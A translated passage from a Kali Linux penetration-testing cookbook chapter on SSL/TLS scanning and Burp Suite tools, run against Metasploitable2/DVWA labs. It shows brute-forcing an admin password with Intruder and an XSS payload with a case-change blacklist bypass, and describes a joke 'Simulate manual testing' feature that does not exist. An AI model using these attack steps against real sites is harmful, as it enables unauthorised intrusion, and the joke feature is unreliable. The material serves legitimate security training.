Failed SSLv3 256 bits DHE-RSA-AES256-SHA256
Failed SSLv3 256 bits DHE-DSS-AES256-SHA256
Rejected SSLv3 256 bits DHE-RSA-AES256-SHA
Rejected SSLv3 256 bits DHE-DSS-AES256-SHA
Rejected SSLv3 256 bits DHE-RSA-CAMELLIA256-SHA
Rejected SSLv3 256 bits DHE-DSS-CAMELLIA256-SHA
**** {TRUNCATED} ****
```

执行时，`SSLScan` 将快速循环到目标服务器的连接，并枚举接受的加密算法、首选加密套件和 SSL 证书信息。可以使用 `grep` 将输出限制为所需的信息。在下面的示例中，使用 `grep` 仅查看接受的加密算法：

```
root@KaliLinux:~# sslscan google.com | grep Accepted
Accepted SSLv3 256 bits ECDHE-RSA-AES256-SHA
Accepted SSLv3 256 bits AES256-SHA
Accepted SSLv3 168 bits ECDHE-RSA-DES-CBC3-SHA
Accepted SSLv3 168 bits DES-CBC3-SHA
Accepted SSLv3 128 bits ECDHE-RSA-AES128-SHA
Accepted SSLv3 128 bits AES128-SHA
Accepted SSLv3 128 bits ECDHE-RSA-RC4-SHA
Accepted SSLv3 128 bits RC4-SHA
Accepted SSLv3 128 bits RC4-MD5
Accepted TLSv1 256 bits ECDHE-RSA-AES256-SHA
Accepted TLSv1 256 bits AES256-SHA
Accepted TLSv1 168 bits ECDHE-RSA-DES-CBC3-SHA
Accepted TLSv1 168 bits DES-CBC3-SHA
Accepted TLSv1 128 bits ECDHE-RSA-AES128-SHA
Accepted TLSv1 128 bits AES128-SHA
Accepted TLSv1 128 bits ECDHE-RSA-RC4-SHA
Accepted TLSv1 128 bits RC4-SHA
Accepted TLSv1 128 bits RC4-MD5
```

可以将多个 `grep` 函数通过管道组合，以根据需要限制输出。通过使用多个 `grep` 请求，下例示例中的输出被限制为目标接受的 256 位加密算法：

```
root@KaliLinux:~# sslscan google.com | grep Accepted | grep "256 bits"
Accepted SSLv3 256 bits ECDHE-RSA-AES256-SHA
Accepted SSLv3 256 bits AES256-SHA
Accepted TLSv1 256 bits ECDHE-RSA-AES256-SHA
Accepted TLSv1 256 bits AES256-SHA
```

`SSLScan` 提供的一个独特功能是实现了 SMTP 中的 STARTTLS 请求。这允许 `SSLScan` 通过使用 `--starttls` 参数并指定目标 地址和端口，轻松有效地测试邮件服务的传输层安全性。在下面的示例中，我们使用 `SSLScan` 来判断 Metasploitable2 集成的 SMTP 服务是否支持任何弱的 40 位加密算法：

```
root@KaliLinux:~# sslscan --starttls 172.16.36.135:25 | grep Accepted |
grep "40 bits"
Accepted TLSv1 40 bits EXP-EDH-RSA-DES-CBC-SHA
Accepted TLSv1 40 bits EXP-ADH-DES-CBC-SHA
Accepted TLSv1 40 bits EXP-DES-CBC-SHA
Accepted TLSv1 40 bits EXP-RC2-CBC-MD5
Accepted TLSv1 40 bits EXP-ADH-RC4-MD5
Accepted TLSv1 40 bits EXP-RC4-MD5
```

### 工作原理……

SSL/TLS 会话通常通过客户端和服务器之间的协商来建立。这些协商会考虑双方配置的加密偏好，并尝试确定双方都支持的最安全的解决方案。`SSLScan` 通过


遍历已知的加密算法和密钥长度，并尝试使用每种配置与远程服务器协商会话。这使得 `SSLScan` 能够枚举出支持的加密算法和密钥。

# 使用 SSLyze 进行 SSL/TLS 扫描

SSLyze 是 Kali Linux 中的一个集成命令行工具，用于评估远程 Web 服务对 SSL/TLS 支持的安全性。在本教程中，我们将讨论如何针对 Web 应用运行 `SSLyze`，以及如何解释和/或处理输出结果。

### 准备工作
要使用 `SSLyze` 对目标进行 SSL/TLS 分析，你需要一个运行着已启用 SSL 或 TLS Web 服务的远程系统。在提供的示例中，使用了 Google 和 `Metasploitable2` 实例的组合来执行此任务。关于设置 `Metasploitable2` 的更多信息，请参阅本书第 1 章 **入门* 部分中的 **安装 Metasploitable2** 教程。

### 如何操作……
另一个对目标服务进行彻底扫描并分析其 SSL/TLS 配置的工具是 `SSLyze`。要执行 `SSLyze` 中的大部分基础测试，参数应包含目标服务器和 `--regular` 参数。这包括对 SSLv2、SSLv3、TLSv1、重协商、恢复、证书信息、HTTP GET 响应状态码以及压缩支持的测试，如下：

```bash
root@KaliLinux:~# sslyze google.com --regular
```

**注册可用插件**
-----------------------------
PluginSessionResumption
PluginCertInfo
PluginOpenSSLCipherSuites
PluginSessionRenegotiation
PluginCompression

检查主机可用性
-----------------------------
google.com:443 => 74.125.226.166:443

GOOGLE.COM:443 - 74.125.226.166:443 的扫描结果
----------------------------------------------------
*** 压缩：
压缩支持：禁用 (Disabled)

*** 证书：
使用 Mozilla CA 存储库验证：证书受信任
主机名验证：OK - 备用名称
匹配
SHA1 指纹：
EF8845009EED2B2FE95D23318C8CF30F1052B596
通用名称：*.google.com
颁发者：/C=US/O=Google Inc/CN=Google
Internet Authority G2
序列号：5E0EFAF2A99854BD
生效日期：2014 年 3 月 12 日 09:53:40 GMT
失效时间：2014 年 6 月 10 日 00:00:00 GMT
签名算法：sha1WithRSAEncryption
密钥长度：2048
X509v3 备用名称：DNS:*.google.com, DNS:*.
android.com, DNS:*.appengine.google.com, DNS:*.cloud.google.com, DNS:*.
google-analytics.com, DNS:*.google.ca, DNS:*.google.cl, DNS:*.google.
co.in, DNS:*.google.co.jp, DNS:*.google.co.uk, DNS:*.google.com.ar,
DNS:*.google.com.au, DNS:*.google.com.br, DNS:*.google.com.co, DNS:*.
google.com.mx, DNS:*.google.com.tr, DNS:*.google.com.vn, DNS:*.google.
de, DNS:*.google.es, DNS:*.google.fr, DNS:*.google.hu, DNS:*.google.
it, DNS:*.google.nl, DNS:*.google.pl, DNS:*.google.pt, DNS:*.googleapis.
cn, DNS:*.googlecommerce.com, DNS:*.googlevideo.com, DNS:*.gstatic.com,
DNS:*.gvt1.com, DNS:*.urchin.com, DNS:*.url.google.com, DNS:*.youtube-
nocookie.com, DNS:*.youtube.com, DNS:*.youtubeeducation.com, DNS:*.ytimg.
com, DNS:android.com, DNS:g.co, DNS:goo.gl, DNS:google-analytics.com,
DNS:google.com, DNS:googlecommerce.com, DNS:urchin.com, DNS:youtu.be,
DNS:youtube.com, DNS:youtubeeducation.com
**** {截断} ****

或者，可以测试单个版本的 TLS 或 SSL 以枚举与该版本相关的加密算法。在下面的示例中，使用 `SSLyze` 枚举支持的 TLSv1.2 加密算法，然后使用 `grep` 仅提取 256 位的加密算法：

```bash
root@KaliLinux:~# sslyze google.com --tlsv1_2 | grep "256 bits"
ECDHE-RSA-AES256-SHA384 256 bits
ECDHE-RSA-AES256-SHA 256 bits
ECDHE-RSA-AES256-GCM-SHA384256 bits
AES256-SHA256 256 bits
AES256-SHA 256 bits
AES256-GCM-SHA384 256 bits
```

`SSLyze` 支持的一个非常有帮助的特性是测试 Zlib 压缩。这种压缩如果被启用，将与一种名为“*压缩率信息泄露变得简单（CRIME）*”的信息泄露漏洞直接相关。可以使用 `--compression` 参数进行如下测试：

```bash
root@KaliLinux:~# sslyze google.com --compression
```

检查主机可用性
-----------------------------
google.com:443 => 173.194.43.40:443
GOOGLE.COM:443 - 173.194.43.40:443 的扫描结果
---------------------------------------------------
*** 压缩：
压缩支持：禁用 (Disabled)
**** {截断} ****

### 工作原理……
SSL/TLS 会话通常通过客户端和服务器之间的协商建立。这些协商会考虑双方各自配置的加密算法偏好，并尝试确定双方都支持的最安全解决方案。`SSLyze` 的工作是通过遍历已知加密算法和密钥长度列表，并尝试使用每种配置与远程服务器协商会话。这使得 `SSLyze` 能够枚举出支持的加密算法和密钥。

# 使用 Burp Suite 定义 Web 应用目标
在进行渗透测试时，确保攻击仅针对预期的系统是非常重要的。针对非预期目标进行的攻击可能会导致法律责任。为了尽地降低这种风险，在 `Burp Suite` 中定义你的范围至关重要。在本教程中，我们将讨论如何使用 `Burp Suite` 代理定义范围内的目标。

### 准备工作
要使用 `Burp Suite` 对目标进行 Web 应用分析，你需要一个运行着一个或多个 Web 应用的远程系统。在提供的示例中，使用了 `Metasploitable2` 实例执行此任务。`Metasploitable2` 在 TCP `80` 端口运行着几个预装的漏洞 Web 应用。关于设置 `Metasploitable2` 的更多信息，请参阅本书第 1 章 **入门* 部分中的 **安装 Metasploitable2** 教程。此外，你的 Web 浏览器需要配置为通过本地 `Burp Suite` 实例代理 Web 流量。关于如何通过 Burp Suite 配置浏览器的更多信息，请参阅本书第 1 章 **入门* 部分中的 **在 Kali Linux 上配置 Burp Suite** 教程。

### 如何操作……
`Burp Suite` 界面最左侧的标签是 `Target`（目标）。该标签下方有两个标签，分别是 `Site Map`（站点地图）和 `Scope`（范围）。当通过代理浏览器访问内容时，`Site Map` 标签将自动填充。`Scope` 标签允许用户配置站点和站点内容将其包含或排除在范围之外。要向评估范围添加新站点，请点击 `Include in Scope`（包含在范围内）表格下的 `Add` 按钮。添加范围内的内容可以泛指 IP 地址范围，也可以具体到单个文件。`Protocol` 选项提供下拉菜单，包含 `ANY`、`HTTP` 或 `HTTPS` 值。`Host or IP range` 字段可以包含单个主机名、单个 IP 或 IP 地址范围。此外，还存在用于 `Port` 和 `File` 的文本字段。字段可以留空以限制范围的精确性。字段应使用正则表达式填充。在提供的示例中，脱字符符号 `^` 打开每个正则表达式的开头，美元符号 `$` 结束，而反斜杠 `\` 用于转义 IP 地址中点的特殊含义。本书的内容未涵盖正则表达式的使用，但互联网上有许多公开资源可以解释其用法。一个可以帮助熟悉正则表达式的良好网页入门指南是 http://www.regular-expressions.info/。


正则表达式在逻辑上定义了特定的主机、端口或文件可被视为在范围（scope）内的条件。在 Burp Suite 中定义评估范围会影响它与 Web 内容交互时的运行方式。Burp Suite 的配置将定义对于定义范围之内或之外的对象，可以执行和不能执行哪些操作。

370



*第 7 章*

# 使用 Burp Suite 爬虫 (Spider)

为了有效攻击 应用程序，意识到服务器上托管的所有 Web 内容至关重要。可以使用多种技术来发现 应用程序的完整攻击面。Spider 工具是一种可以快速识别目标网站网页中引用的链接内容的工具。在本教程中，我们将讨论如何使用 Burp Suite 对 Web 进行爬取，以识别在范围内的内容。

### 准备工作

要使用 Burp Suite 对目标进行 应用程序分析，你需要一个运行一个或多个 应用程序的远程系统。在提供的示例中，使用了一个 `Metasploitable2` 实例来执行此任务。`Metasploitable2` 具有多个运行在 `TCP port 80` 上的预装漏洞 应用程序。有关设置 `Metasploitable2` 的更多信息，请参考此书第 1 章“入门指南”中的 `Installing Metasploitable2` 教程。此外，你的 Web 浏览器需要配置为通过本地 Burp Suite 实例代理 Web 流量。有关如何使用 Burp Suite 配置浏览器的更多信息，请参考此书第 1 章“入门指南”中的 `Configuring Burp Suite on Kali Linux` 教程。

### 如何操作…

要开始自动爬取你之前定义的范围内的 Web 内容，请点击屏幕顶部的 `Spider` 标签页。在下方有两个额外的标签页，包含 `Control` 和 `Options`。`Options` 标签页允许用户定义执行爬取方式的配置。这包括详细设置、深度、节流、表单提交等。考虑自动爬虫的配置是非常重要的，因为它将向所有在范围内的 Web 内容发送请求。这可能会对某些 Web 内容产生干扰甚至造成破坏。一旦配置完成，可以选择 `Control` 标签页来开始自动爬取。默认情况下，`Spider` 标签页是暂停的。通过点击指示此类状态的按钮可以启动爬虫。`Target` 标签页下的 `Site Map` 标签页将随着爬虫的进展自动更新。请查看以下截图：

371





*Web 应用程序扫描*

根据定义的配置，Burp Suite 可能会要求对爬取过程中遇到的任何表单进行交互。为识别出的任何表单输入参数，或通过选择 `Ignore Form` 按钮跳过表单，如下截图所示：

或者，你也可以通过在 `Site Map` 标签页中右键点击任何特定位置，然后点击 `Spider` 来从该位置开始爬取。这将递归地爬取所选对象以及包含其中的任何文件或目录。请查看以下截图：

## 工作原理…

Burp Suite Spider 工具通过解析所有已知的 HTML 内容并提取指向 Web 上其他内容的链接来工作。然后对链接内容进行分析，以发现其中包含的链接内容。此过程将无限持续，仅限于内容本身。

372



*第 7 章*

# 使用 Burp Suite 工具

Burp Suite 还有许多可以用于信息收集和分析的工具。这些工具被称为渗透测试工具（engagement tools）。在本教程中，我们将讨论如何使用 Burp Suite。

### 准备工作

要使用 Burp Suite 对目标进行 应用程序分析，你需要一个运行一个或多个 Web 应用程序的远程系统。在提供的示例中，使用了一个 `Metasploitable2` 实例来执行此任务。`Metasploitable2` 具有多个运行在 `TCP port 80` 上的预装漏洞 应用程序。有关设置 `Metasploitable2` 的更多信息，请参考此书第 1 章“入门指南”中的 `Installing Metasploitable2` 教程。此外，你的 Web 浏览器需要配置为通过本地 Burp Suite 实例代理 Web 流量。有关如何使用 Burp Suite 配置浏览器的更多信息，请参考此书第 1 章“入门指南”中的 `Configuring Burp Suite on Kali Linux` 教程。

### 如何操作…

通过右键点击 `Site Map` 标签页中的任何对象并向下滚动到扩展菜单，可以访问渗透测试工具。默认情况下，选中的工具将以此为目标。请考虑以下截图：

373

*Web 应用程序扫描*

我们将按照呈现的顺序处理每个渗透测试工具。为了方便起见，我认为通过以下要点介绍这些工具最好：

- **Search (搜索)**：此工具可用于搜索术语、短语或正则表达式。它将返回任何包含查询词的 HTTP 请求或响应。对于返回的每个条目，查询词将在请求或响应中高亮显示。
- **Find comments (查找注释)**：此工具搜索整个 Web 内容中所有的 JavaScript、HTML 和其他源代码，并定位所有注释。这些注释也可以导出以备日后审查。这在某些时候特别有用，因为某些开发者经常会在他们编写的注释中留下敏感信息。
- **Find scripts (查找脚本)**：此工具将识别 Web 内容中的所有客户端和服务器端脚本。
- **Find references (查找引用)**：此工具将解析所有 HTML 内容并识别其他引用的内容。
- **Analyze target (分析目标)**：此工具将识别指定 Web 内容中的所有动态内容、静态内容和参数。对于具有大量参数和动态内容的 应用程序进行组织测试特别有用。
- **Discover content (发现内容)**：此工具可以通过循环遍历字典列表和定义的扩展扩展名来暴力破解目录和文件名。
- **Schedule task (调度任务)**：此工具允许用户定义启动和停止 Burp Suite 中各种任务的时间和日期。
- **Simulate manual testing (模拟手动测试)**：此工具提供了一种极佳的方式，让你看起来正在对 应用程序进行手动分析，而实际上你去喝咖啡吃甜甜圈了。除了欺骗老板，此工具完全没有任何实际功能。

## 工作原理…

Burp Suite 渗透测试工具以多种不同的方式工作，取决于所使用的工具。许多渗透测试工具执行搜索功能并检查已收到的响应。Discover content 工具通过暴力破解文件和目录名提供了发现新 Web 内容的功能。


要使用 `Burp Suite` 对目标进行 Web 应用程序分析，你需要一个运行着一个或多个 Web 应用程序的远程系统。在提供的示例中，使用了 `Metasploitable2` 实例来执行此任务。`Metasploitable2` 在 `TCP` 端口 `80` 上运行着几个预装的带有漏洞的 Web 应用程序。有关设置 `Metasploitable2` 的更多信息，请参阅本书第 `1` 章 `入门` 中的 `Installing Metasploitable2` 章节。此外，你的 Web 浏览器需要配置为将 Web 流量通过本地 `Burp Suite` 实例进行代理。有关如何使用 `Burp Suite` 配置浏览器的更多信息，请参阅本书第 `1` 章 `入门` 中的 `Configuring Burp Suite on Kali Linux` 章节。

### 如何操作…

`Burp Suite Proxy` 功能可以在被动或拦截模式下使用。如果禁用了拦截，所有请求和响应将仅记录在 `HTTP history` 选项卡中。可以通过导航这些项，并从列表中选择任何请求/响应来查看详细信息，如下所示：

375


#### Web 应用程序扫描

或者，可以点击 `Intercept` 按钮捕获发往服务器的流量。这些请求可以在 `Proxy` 选项卡中进行处理，然后转发到目标或丢。通过选择 `Options` 选项卡，可以重新配置拦截代理以定义拦截的请求类型，或者在响应于浏览器渲染之前进行拦截，如下所示：

#### 工作原理

`Burp Suite Proxy` 通过拦截或被动记录浏览器与任何远程设备之间的流量工作，因为它逻辑上位于两者之间。浏览器被配置为将所有请求发送到 `Burp proxy`，然后将其转发到任何外部主机。由于此配置，`Burp` 可以捕获路径上的请求和响应，或者记录来自客户端的所有通信。

### 使用 Burp Suite Web 扫描器

`Burp Suite` 还可以作为有效的 Web 应用程序扫描器。此功能可用于被动分析和主动扫描。在本章节中，我们将讨论如何使用 `Burp Suite scanner` 执行被动和主动扫描。

### 准备工作

要使用 `Burp Suite` 对目标进行 Web 应用程序分析，你需要一个运行着一个或多个 Web 应用程序的远程系统。在提供的示例中，使用了 `Metasploitable2` 实例来执行此任务。`Metasploitable2` 在 `TCP` 端口 `80` 上运行着几个预装的带有漏洞的 Web 应用程序。有关设置 `Metasploitable2` 的更多信息，请参阅本书第 `1` 章 `入门` 中的 `Installing Metasploitable2` 章节。

376



*第 7 章*

此外，你的 Web 浏览器需要配置为将 Web 流量通过本地 `Burp Suite` 实例进行代理。有关如何使用 `Burp Suite` 配置器的更多信息，请参阅本书第 `1` 章 `入门` 中的 `Configuring Burp Suite on Kali Linux` 章节。

### 如何操作…

默认情况下，当连接到代理时，`Burp Suite` 将被动扫描浏览器访问的所有范围内的内容。“被动扫描”一词是指 `Burp Suite` 被动观察发往和来自服务器的请求和响应，并检查这些内容是否存在漏洞证据。被动扫描不涉及注入任何探测或其他尝试来确认漏洞。请查看下面的截图：

主动扫描可以通过右键点击站点中的任何对象或 `proxy HTTP history` 中的任何请求，并分别选择 `Actively scan this branch` 或 `Do an active scan` 来执行，如下所示：

377


*Web 应用程序扫描*

可以通过 `Scanner` 下的 `Scan queue` 选项卡查看所有主动扫描的结果。通过双击任何扫描条目，你可以查看与该扫描相关的发现，如下所示：

可以通过选择 `Options` 选项卡处理主动扫描配置。在这里，你可以定义执行的测试类型、执行速度以及这些测试的彻底程度。

#### 工作原理…

`Burp Suite` 的被动扫描仅通过评估浏览器与其通信的任何远程服务器之间的流量工作。这对于识别某些显而易见的漏洞有用，但不足以验证如今 Web 服务器上许多更严重的漏洞。主动扫描通过向请求中识别出的参数发送一系列探测来工作。这些探测可以识别许多常见的 Web 应用程序漏洞，如目录遍历、跨站脚本和 SQL 注入。

### 使用 Burp Suite Intruder

`Burp Suite` 中的另一个非常有用的工具是 `Intruder` 功能。此功能允许通过在请求中处理定义的负载位置的同时提交大量请求来执行快速攻击。在本章节中，我们将讨论如何使用 `Burp Suite Intruder` 自动处理请求内容。

### 准备工作

要使用 `Burp Suite` 对目标进行 Web 应用程序分析，你需要一个运行着一个或多个 Web 应用程序的远程系统。在提供的示例中，使用了 `Metasploitable2` 实例来执行此任务。`Metasploitable2` 在 `TCP` 端口 `80` 上运行着几个预装的带有漏洞的 Web 应用程序。有关设置 `Metasploitable2` 的更多信息，请参阅本书第 `1` 章 `入门` 中的 `Installing Metasploitable2` 章节。此外，你的 Web 浏览器需要配置为将 Web 流量通过本地 `Burp Suite` 实例进行代理。有关如何使用 `Burp Suite` 配置浏览器的更多信息，请参阅本书第 `1` 章 `入门` 中的 `Configuring Burp Suite on Kali Linux` 章节。

378



*第 7 章*

### 如何操作…

要使用 `Burp Suite Intruder`，需要从拦截的路径捕获或代理历史记录将请求发送到它。对于其中任一请求，右键点击请求，然后选择 `Send to Intruder`，如下所示：

在提供的示例中，在 `DVWA` 的 `Brute Force` 应用程序登录门户输入了用户名和密码。发送到 `Intruder` 后，可以通过 `Positions` 选项卡设置负载。要尝试破解管理员账户，唯一需要设置负载位置的是 `password` 参数的值，如下所示：

379



*Web 应用程序扫描*


一旦完全配置攻击，你可以点击屏幕顶部的 `Intuder` 菜单，然后点击 `start attack`。这将通过将列表中的每个值替换到有效负载（payload）位置，来快速提交一系列请求。通常可以通过响应的差异来识别成功的尝试。要确定是否存在任何一个请求生成了截然不同的响应，可以按长度对结果进行排序。这可以通过点击 `Length` 表头来实现。通过按长度对表格进行降序排序，我们可以识别出其中一个特定的响应比其他响应都长。这个响应就是与正确密码（恰好是 `password`）相关的响应。下方的截图所示。这一成功的登录尝试在接下来的讨论使用 `Comparer` 的配方中得到了进一步确认。

### 工作原理……

Burp Suite `Intuder` 的工作原理是自动处理有效负载的操控。它允许用户在请求中指定一个或多个有效负载位置，然后提供大量的选项，用于配置提供给这些有效负载位置的值在每次迭代之间如何变化。

380



*第 7 章*

## 使用 Burp Suite Comparer

在进行 Web 应用程序评估时，能够轻松识别 HTTP 请求或响应的差异通常是非常重要的。`Comparer` 功能通过提供差异的图形化概述来简化这一过程。在本文配方中，我们将讨论如何使用 Burp Suite `Comparer` 来识别和评估不同的服务器响应。

### 准备工作

要使用 Burp Suite 对目标进行 Web 应用程序分析，你需要一个运行一个或多个 Web 应用程序的远程系统。在提供的示例中，使用一个 `Metasploitable2` 实例来执行此任务。`Metasploitable2` 有多个预装在 TCP 端口 80 上的漏洞 Web 应用程序。关于设置 Metasploitable2 的更多信息，请参阅本书第 1 章 `Getting Started` 中的 `Installing Metasploitable2` 配方。此外，你的 Web 浏览器需要配置为通过本地 Burp Suite 实例代理 Web 流量。关于如何通过 Burp Suite 配置浏览的更多信息，请参阅本书第 1 章 `Getting Started` 中的 `Configuring Burp Suite on Kali Linux` 配方。

### 如何操作……

任何与原本一致的响应相比的异常异常都值得调查。响应的差异通常是有效负载产生了某些预期结果的可靠指示。在之前使用 Burp Suite `Intuder` 对 `DVWA` 登录进行暴力破解的演示中，有一个特定的有效负载生成的响应比所有其他响应都长。

要评估响应的差异，右键点击该事件，然后点击 `Send to Comparer (response)`，如下方的所示。对其中一个控制示例也执行相同的操作。

381





*Web 应用程序扫描*

将每个事件发送到 `Comparer` 后，你可以通过选择屏幕顶部的 `Comparer` 标签来对其进行评估。确保为 `item 1` 选择了之前的响应之一，为 `item 2` 选择了另一个，如下方的所示：

在屏幕底部，有一个选项可以选择 `compare words`比较单词）或 `compare bytes`比较字节）。在这种情况下，我们选择 `compare words`。通过这样做，我们可以看到响应之间的差异被高亮显示。这有助于识别出哪个响应包含了所需的数据。

### 工作原理……

Burp Suite `Comparer` 的工作原理是分析响应之间的差异。它允许用户比较两个或多个响应，并高亮显示不同的区域。这对于识别不同有效负载对服务器响应的影响特别有用。

## 使用 Burp Suite Repeater

在进行 Web 应用程序评估时，能够轻松识别 HTTP 请求或响应的差异通常是非常重要的。`Repeater` 功能通过允许用户单独修改并重新发送请求来简化这一过程。在配方中，我们将讨论如何使用 Burp Suite Repeater。

382


*第 7 章*

### 准备工作

要使用 Burp Suite 对目标进行 Web 应用程序分析，你需要一个运行一个或多个 Web 应用程序的远程系统。在提供的示例中，使用一个 `Metasploitable2` 实例来执行此任务。`Metasploitable2` 有多个预装在 TCP 端口 80 上的漏洞 Web 应用程序。关于设置 Metasploitable2 的更多信息，请参阅本书第 1 章 `Getting Started` 中的 `Installing Metasploitable2` 配方。此外，你的 Web 浏览器需要配置为通过本地 Burp Suite 实例代理 Web 流量。关于如何通过 Burp Suite 配置浏览的更多信息，请参阅本书第 1 章 `Getting Started` 中的 `Configuring Burp Suite on Kali Linux` 配方。

### 如何操作……

要使用 Burp Suite Repeater，需要通过拦截捕（intercept）或代理历史（proxy history）向其发送一个请求。通过其中任一方式，右键点击请求，然后选择 `Send to Repeater`，如下方的所示：在提供的示例中，请求要求用户提供一个名称，服务器在 HTML 响应中返回提供的输入。为了测试跨站脚本（XSS）的可能性，我们应该首先在此类攻击中注入一系列常用的字符，如下方的所示：

383


*Web 应用程序扫描*

在发送该系列字符后，我们可以看到所有字符都返回在 HTML 内容中，且没有任何字符被转义。这强烈表明该函数容易受到跨站脚本攻击。为了测试该漏洞的可利用性，我们可以输入标准的令牌请求 `<script>alert('xss')</script>`，如下方的所示：

通过查看返回的 HTML 内容，我们可以看到被标记的起始脚本已从响应中移除。这很可能是黑名单的指示，禁止在输入中使用 `<script>` 标签。黑名单的问题在于，通常可以通过微调输入来绕过它。在这种情况下，我们可以尝试通过修改起始标签中几个字符的大小写来绕过黑名单，如下方的所示：

通过使用起始标签 `<ScRiPt>`，我们可以看到实施的限制已被绕过，且起始和结束标签都包含在响应中。这可以通过在浏览器中发出请求来确认，如下方的所示：384


*第 7 章*


要在客户端浏览器中评估响应，请右键点击该请求，然后在浏览器中选择 `Request`。这将生成一个 URL，该 URL 可用于在连接到 Burp 代理的浏览器中重新发送该请求，如下截图所示：我们可以手动复制提供的 URL，也可以点击 `Copy` 按钮。然后将此 URL 粘贴到浏览器中，请求将在浏览器中发出。假设跨站脚本攻击成功，客户端 JavaScript 代码将在浏览器中渲染，屏幕上将弹出一个警框，如下截图所示：

### 工作原理……

Burp Suite Repeater 的工作原理是为 Web 提供一个基于文本的界面。Repeater 允许用户通过直接操作请求与远程 Web 服务进行交互，而不是通过 Web 浏览器。在测试某些实际 HTML 输出比在浏览器中的渲染方式更重要的用例时，这非常有用。

385


*Web Application Scanning*

### 使用 Burp Suite Decoder

在处理 Web 应用流量时，你经常会注意到为了混淆或功能原因而编码的内容。Burp Suite Decoder 允许根据对请求和响应内容进行解码或编码。在本教程中，我们将讨论如何使用 Burp Suite Decoder 对内容进行编解码。

### 准备工作

